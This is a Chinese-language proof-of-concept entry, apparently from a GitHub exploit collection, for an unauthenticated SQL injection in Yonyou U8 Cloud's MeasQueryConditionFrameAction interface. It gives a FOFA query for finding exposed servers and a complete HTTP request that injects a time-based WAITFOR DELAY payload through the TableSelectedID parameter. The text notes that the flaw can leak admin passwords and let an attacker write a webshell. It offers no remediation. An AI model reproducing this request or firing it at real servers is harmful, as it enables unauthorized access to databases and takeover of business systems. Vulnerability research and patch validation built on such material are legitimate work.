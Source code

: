 # 用友U8-Cloud系统接口MeasQueryConditionFrameAction存在SQL注入漏洞

用友U8 Cloud MeasQueryConditionFrameAction接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
app="用友-U8-Cloud"
```

## poc

```yaml
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasQueryConditionFrameAction&method=doCopy&TableSelectedID=1%27);WAITFOR+DELAY+%270:0:5%27--+ HTTP/1.1
Host: 127.0.0.1:9001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![用友U8CloudSQL注入](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122050039.png)